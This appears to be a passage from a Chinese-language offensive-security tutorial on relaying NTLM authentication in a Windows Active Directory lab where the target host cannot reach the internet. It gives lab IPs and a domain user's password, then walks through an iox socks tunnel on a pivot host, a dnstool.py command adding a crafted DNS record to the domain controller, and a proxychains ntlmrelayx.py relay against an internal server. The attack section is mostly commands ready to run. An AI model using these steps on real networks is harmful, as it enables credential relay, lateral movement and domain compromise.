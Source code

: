 ![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElwLTveyMHJ117rPAtehPUibkchbE2DibCKNGZMtAzOWTuwwBkWDMuZ6oQ/640?wx_fmt=png&from=appmsg "")  
  
二. 目标主机不出网  
  
搭建环境如下，并将入口机上线到攻击机的 CS：  
  
```
已获得普通域用户：domainuser01 / User01!@#域控DC Windows server 2022：192.168.214.134域内目标主机 Windows server 2022：192.168.214.135入口跳板主机 Windows server 2022  192.168.214.136  192.168.56.130 (模拟外网IP) 攻击机 Windows 11：192.168.56.131公网VPS Kali Linux：192.168.56.10
```  
  
  
这种情况需要在入口机器上搭建一层隧道来实现流量的转发。  
  
1.   
开启   
socks  
 代理并配置本地   
proxifier  
 。  
  
```
iox.exe proxy -l 8080
```  
  
  
2.   
向域控添加   
DNS 解析记录  
，此时需要将解析指向入口机器 IP   
192.168.214.130  
。  
  
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130 --action modify 192.168.214.134 --tcp＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El9ECSwYiaZtYHV24uWcSOibialo34w5EuXhJddAbBu4hHcOSBQajemE3cw/640?wx_fmt=png&from=appmsg "")  
  
  
3  
.  
   
在   
VPS  
 开启监听。如果是 Windows 主机，则使  
用  
--smb-port   
指定  
一个端口。  
  
注意这里需要使用   
proxychains  
 来运行   
ntlmrelayx.py  
 ，因为 VPS 接收到目标机器的验证请求之后需要通过   
iox  
 隧道将其反射回内网。具体原理可以参考上一篇文章。  
```
proxychains python3 ntlmrelayx.py -t 192.168.214.135 -smb2support
```  
  